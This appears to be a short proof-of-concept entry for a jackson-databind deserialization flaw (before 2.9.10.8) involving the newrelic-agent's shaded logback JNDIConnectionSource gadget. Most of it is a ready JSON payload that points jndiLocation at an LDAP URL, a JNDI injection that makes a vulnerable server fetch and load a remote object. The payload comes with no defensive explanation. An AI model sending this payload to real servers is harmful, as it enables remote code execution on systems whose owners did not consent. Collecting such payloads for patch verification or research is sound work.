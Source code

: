 FasterXML jackson-databind 2.x before 2.9.10.8 mishandles the interaction between serialization gadgets and typing, 
related to com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource
newrelic-agent
```json
["com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource", {"jndiLocation":"ldap://127.0.0.1:1288/Exploitt"}]
```
